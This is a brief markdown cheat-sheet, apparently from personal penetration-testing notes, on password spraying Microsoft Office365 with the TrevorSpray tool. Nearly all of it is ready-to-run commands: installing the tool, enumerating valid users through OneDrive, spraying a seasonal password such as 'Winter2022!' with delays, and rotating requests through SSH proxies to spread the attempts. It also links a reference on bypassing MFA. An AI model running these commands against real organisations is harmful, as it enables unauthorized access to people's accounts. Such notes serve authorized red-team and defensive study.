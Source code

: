 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Office365

### Password Spraying Office365

#### TrevorSpray

```bash
# Installation
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray

# Perform recon against a domain
trevorspray --recon $domain

# Enumerate users via OneDrive
trevorspray --recon $domain -u $emails --threads 3

# Spray with a 10 second delay between requests
trevorspray -u $validemails -p 'Winter2022!' --delay 10

# Spray with two robins and the current system
trevorspray -u $validemails -p 'Winter2022!' --ssh root@$robin root@$robin
```

### Identifying Emails without OSINT

{% embed url="https://github.com/blacklanternsecurity/TREVORspray#example-find-valid-usernames-without-osint-d" %}

### References

{% embed url="https://www.sprocketsecurity.com/resources/how-to-bypass-mfa-all-day" %}
